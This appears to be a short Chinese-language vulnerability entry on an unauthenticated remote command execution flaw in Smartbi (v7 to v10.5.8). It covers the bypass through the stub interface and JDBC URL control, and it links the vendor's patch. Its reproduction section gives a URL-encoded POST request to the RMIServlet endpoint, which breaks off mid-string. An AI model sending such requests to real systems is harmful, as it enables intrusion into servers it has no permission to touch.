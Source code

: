 # Smartbi 远程命令执行漏洞

# Smartbi 远程命令执行漏洞

## 漏洞描述

Smartbi 大数据分析平台存在远程命令执行漏洞，未经身份认证的远程攻击者可利用 stub 接口构造请求绕过补丁限制，进而控制 JDBC URL，最终可导致远程代码执行或信息泄露。

## 漏洞影响

```
v7 <= Smartbi <= v10.5.8
```

## 漏洞复现

```
POST /smartbi/vision/RMIServlet?windowUnloading=&%7a%44%70%34%57%70%34%67%52%69%70%2b%69%49%70%69%47%5a%70%34%44%52%77%36%2b%2f%4a%
```

## 漏洞修复

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://www.smartbi.com.cn/patchinfo

